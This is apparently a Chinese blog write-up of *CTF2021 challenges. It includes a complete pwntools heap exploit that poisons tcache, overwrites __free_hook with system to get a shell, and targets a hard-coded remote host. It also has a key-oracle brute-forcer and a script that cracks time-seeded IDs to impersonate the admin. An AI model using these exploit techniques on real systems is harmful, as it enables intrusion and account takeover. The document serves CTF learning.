

<!--yml
category: 未分类
date: 2022-04-26 14:18:12
-->

# *CTF2021部分题目解题思路及exp_liucc09的博客-CSDN博客

> 来源：[https://blog.csdn.net/liucc09/article/details/112784015](https://blog.csdn.net/liucc09/article/details/112784015)

# babyheap

这是pwn里面唯一的传统heap题，使用的是新的libc2.27，chunk被free到tcache后bk位置会被写入一个地址，再次free时如果bk有这个地址会和tcache里的所有chunk挨个比较，发现一样的就报double free tcache 2，因此要再free之后把bk置零就行了。

题目第一个坑，在edit方法里面读入数据是从chunk+8的位置的开始写，也就是不让修改fd，这导致虽然有UAF，也无法很方便的实现任意地址写。解决方法为构造重叠的chunk，从而改到tcache中chunk的fd。

题目第二个坑，chunk大小不能大于0x60，因此无法释放chunk到unsorted bin，也就无法通过unsorted bin泄漏libc地址。方法为通过题目中的方法分配一个0x400的chunk，这会触发回收机制，faskbin会在合并后被扔到smallbin，从而通过smallbin泄漏libc地址。

因为我不想用one_gadget，所以既要写入一个/bin/sh\x00到fd，又要修改__free_hook，因此我构造了两条tcache链条。

exp：

```
from pwn import *

import time

pe = "./pwn"
arch = 'amd64'

context.update(arch=arch,os='linux',log_level='DEBUG')

DEBUG = False
elf = ELF(pe)
if DEBUG:
	if arch=='amd64':
		libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	else:
		libc = ELF('/lib/i386-linux-gnu/libc.so.6')

	r = process(pe)

else:
    libc = ELF('./libc.so.6')
    r = remote('52.152.231.198',8081)

se      = lambda data               :r.send(data) 
sa      = lambda delim,data         :r.sendafter(delim, data)
sl      = lambda data               :r.sendline(data)
sla     = lambda delim,data         :r.sendlineafter(delim, data)
sea     = lambda delim,data         :r.sendafter(delim, data)
rc      = lambda numb=4096          :r.recv(numb)
rl      = lambda                    :r.recvline()
ru      = lambda delims			    :r.recvuntil(delims)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
ri      = lambda                    :r.interactive()
info_addr = lambda tag, addr        :r.info(tag + ': {:#x}'.format(addr))

def debug(addr=0,PIE=True):
    time.sleep(1)

    if PIE:

        text_base = r.libs()[r.cwd + r.argv[0].strip('.')]
        if addr>0:
		    print("breakpoint_addr --> " + hex(text_base + addr))
		    gdb.attach(r,'b *{}\nset $a={}\nset $b={}\n'.format(hex(addr),hex(text_base+0x2020a0),hex(text_base+0x202060)))
        else:
		    gdb.attach(r,'set $a={}\nset $b={}\n'.format(hex(text_base+0x2020a0),hex(text_base+0x202060)))

    else:
        print("breakpoint_addr --> " + hex(addr))
        gdb.attach(r,'b *{}\n'.format(hex(addr)))
    time.sleep(1)

def msg(msg,addr):
    log.warn(msg + "--> " + hex(addr))

'''
>> 
1
input index
0
input size
40
'''
def add(idx,size):
	sla(">> \n","1")
	sla("input index\n",str(idx))
	sla("input size\n",str(size))

'''
>> 
4
input index
0
'''
def show(idx):
	sla(">> \n","4")
	sla("input index\n",str(idx))

'''
>> 
3
input index
0
input content
liucc
'''
def edit(idx,content):
	sla(">> \n","3")
	sla("input index\n",str(idx))
	sea("input content\n",content)

'''
>> 
2
input index
0
'''
def free(idx):
	sla(">> \n","2")
	sla("input index\n",str(idx))

def merge(content):
    sla(">> \n","5")
    sea("your name:\n",content)

add(0,0x10)
add(1,0x10)
add(7,0x20)
add(8,0x20)
for i in range(2,7):
    add(i,0x10)

for i in range(9,15):
    add(i,0x20)

for i in range(2,7):
    free(i)
    edit(i,p64(0))
free(0)
edit(0,p64(0))
free(1)
edit(1,p64(0))

for i in range(9,14):
    free(i)
    edit(i,p64(0))
free(7)
edit(7,p64(0))
free(8)
edit(8,p64(0))

for i in range(2,7):
    free(i)

free(0)
free(1)

for i in range(9,14):
    free(i)

free(7)
free(8)

merge('a')

add(0,0x30)
add(1,0x40)
show(0)
libc_base = u64(rc(6).ljust(8,b"\x00"))-0x3ebec0
msg("libc_base",libc_base)
libc.address = libc_base

edit(0,p64(0)*3+b'/bin/sh\x00')
edit(1,p64(0)*5+p64(libc.sym["__free_hook"]-0x8))

add(0,0x10)
add(1,0x20)
add(1,0x20)

edit(1,p64(libc.sym["system"]))

free(0)
sl("cat flag")

ri() 
```

# GuessKey2

从题目源码可以看出，只要不退出，那么就可以在一个死循环里不断用mask对key进行操作，然后再比较guess和key是否相同，那么很容易想到要通过构造mask，一点点将key变成一个我们可以控制的值。

通过读题发现，p，q都指向一个为0的位置，而1^0=1，因此可以考虑设计mask为全1的数，这样每次至少会将两个位置改为1，那么总会有将key改为全1的时候，改为全1后将mask=0，保持key不变两回合就行了。

exp：

```
from random import randint
import os,time
from pwn import *
mask=str(int((1<<64)-1))
guess = int((1<<64)-1)
r = remote("52.163.228.53",8082)
ctr = 0
for i in range(1000):

    r.recvuntil("mask:").decode("utf-8")
    r.sendline(mask)

    r.recvuntil("guess:").decode("utf-8")
    r.sendline(str(guess))

    data = r.recvline().decode("utf-8")

    if "Nice." in data:

        mask = "0"
        ctr+=1
        print(data)

    if ctr>2:
        print(r.recvline().decode("utf-8"))
        break 
```

# oh-my-note

这题给源码了，从源码可以看出，user_id和note_id都是设置随机种子为当前时间后随机生成的，而note的发布时间也给了，源码中还如下图所示有一个get方法可以绕过对session的检测，网站中也有admin的note，这很明显就是要我们通过爆破随机数种子从而得到admin的user_id。
通过和网站交互的方式爆破会被网站拒绝连接，而如下源码中发现note_id是基于user_id生成的，而网站中给出了两个admin的公开note，可以得到它们的note_id，当然，第一个note才是创建admin用户时的note，必须用第一个note进行爆破。

```
if user:
    user_id = user.user_id
else:
    timestamp = round(time.time(), 4)
    random.seed(timestamp)
    user_id = get_random_id()
    user = User(username=username, user_id=user_id)
    db.session.add(user)
    db.session.commit()
    session['username'] = username

timestamp = round(time.time(), 4)

post_at = datetime.datetime.fromtimestamp(timestamp, tz=datetime.timezone.utc).strftime('%Y-%m-%d %H:%M UTC')

random.seed(user_id + post_at)
note_id = get_random_id() 
```

note给出的时间不带秒和毫秒，round（*，4）保留了4位小数，创建user_id的时间可能比post_at早几百毫秒，因此需要循环60*10000*10次。

exp：

```
import time
import random,string
import datetime

true_note_id = "lj40n2p9qj9xkzy3zfzz7pucm6dmjg1u"

def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])

def crack(s,milis,pre):

    year = 2021
    month = 1
    day = 15
    hour = 2+8
    minute = 29

    without_timezone = datetime.datetime(year,month,day,hour,minute, s, milis)

    timestamp2 = round(without_timezone.timestamp(),4)

    timestamp1 =  round((timestamp2*10000-pre)/10000,4)

    random.seed(timestamp1)
    user_id = get_random_id()

    post_at = datetime.datetime.fromtimestamp(timestamp2, tz=datetime.timezone.utc).strftime('%Y-%m-%d %H:%M UTC')

    random.seed(user_id + post_at)
    note_id = get_random_id()

    if note_id==true_note_id:
        print(user_id)
        print(note_id)
        return True

    return False

def run():
    for s in range(60):
        print(s,end=",")
        for ms in range(10000):
            for pre in range(10): 
                if crack(s,ms*100,pre):
                    print("success")
                    return

run() 
```

# puzzle

这题给了个打乱后的拼图，因此肯定是要用某个可以自动解拼图游戏的开源代码来做，上网一搜果然有
[https://reposhub.com/python/imagery/nemanja-m-gaps.html](https://reposhub.com/python/imagery/nemanja-m-gaps.html)

可以这个图太复杂了，算法跑了很多次，其中一次的结果如下：
那没办法，只能用ps再自己一点点拼接了，最终结果如下：

flag就是：**flag{you_can_never_finish_the}**

这句话其实早就猜出来了，但是因为挂着bp，提交flag一直报错，最后才用ps一点点拼接，然后提交还是报错，才发现还挂着bp。。。